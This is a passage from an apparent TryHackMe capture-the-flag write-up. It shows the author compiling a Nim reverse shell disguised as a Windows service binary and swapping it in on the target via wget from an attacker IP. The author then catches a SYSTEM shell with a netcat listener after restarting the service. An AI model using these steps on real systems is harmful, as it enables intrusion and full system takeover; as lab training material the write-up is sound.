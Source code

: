 ```bash
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/private/win_setenv.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/cmdline.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/os.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/nativesockets.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/monotimes.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/net.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/streams.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/osproc.nim
CC: revshell.nim
Hint:  [Link]
Hint: mm: orc; threads: on; opt: speed
62053 lines; 3.487s; 91.586MiB peakmem; proj: /home/mdn0x/THM/CHALLENGES/Medium/HackSmarterSEC/revshell.nim; out: /home/mdn0x/THM/CHALLENGES/Medium/HackSmarterSEC/spoofer-scheduler.exe [SuccessX]
                                                                                                                                     
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ ls
Credit-Cards-We-Pwned.txt  revshell.nim  spoofer-scheduler.exe  
```

We have our file, first we rename the original one on the target to backup it somehow :

```powershell
PS C:\Program Files (x86)\Spoofer> mv .\spoofer-scheduler.exe spoofer-scheduler-backup.exe
```

Now let's host the server again and download the new file in the directory :

```powershell
PS C:\Program Files (x86)\Spoofer> wget http://10.8.162.183/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

Now we open our listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash                                                                                                                               
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ nc -lvnp 8080                                                               
listening on [any] 8080 ...

```

And we stop and start the service on the target machine :

```powershell
PS C:\Program Files (x86)\Spoofer> sc.exe stop spoofer-scheduler     

PS C:\Program Files (x86)\Spoofer> sc.exe start spoofer-scheduler
```

And we have it :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.142.189] 50124
C:\Windows\system32>   
```
